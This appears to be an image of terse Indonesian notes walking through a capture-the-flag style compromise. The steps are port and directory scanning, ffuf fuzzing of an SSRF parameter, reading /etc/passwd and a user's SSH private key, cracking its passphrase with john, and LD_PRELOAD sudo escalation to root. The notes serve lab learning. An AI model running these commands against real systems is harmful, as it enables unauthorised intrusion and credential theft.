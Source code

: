 1. scan -> 22 80 buka ssh http -> coba masuk
2. scan dir scan subdo -> gobuster dir -u 'link' -w dir.txt -> gobuster vhost -u "link" -w subdo.txt --append-domain 
3. disitu bisa bruteforce port yg dipake localhost -> buat wordlist dulu -> seq 1 1500 >> port.txt
4. ffuf -u link -X POST -d "url=http://127.0.0.1:FUZZ" -w port.txt -H "Content-Type: application/x-www-form-urlencoded" 
5. atau itu data nya di urlencode dulu biar persen persen -> terus buka aja web localhost port nya itu
6. sekarang inputnya gini -> http://127.0.0.1:port/etc/passwd -> nanti muncul user usernya -> ato /home juga
7. next gini -> /home/user/.ssh/id_rsa -> chmod 600 rsa -> coba ssh -i rsa saad@ip  -> butuh phrase
8. ssh2john rsa >> hashrsa.txt -> john hashrsa.txt --wordlist=/rockyou.txt -> dapet dah ssh ulang
9. cat bash history -> catet passwd user -> sudo -l -> coba bikin preload cari sendiri -> terus jalanin ping sambil prelod
10. klaim root
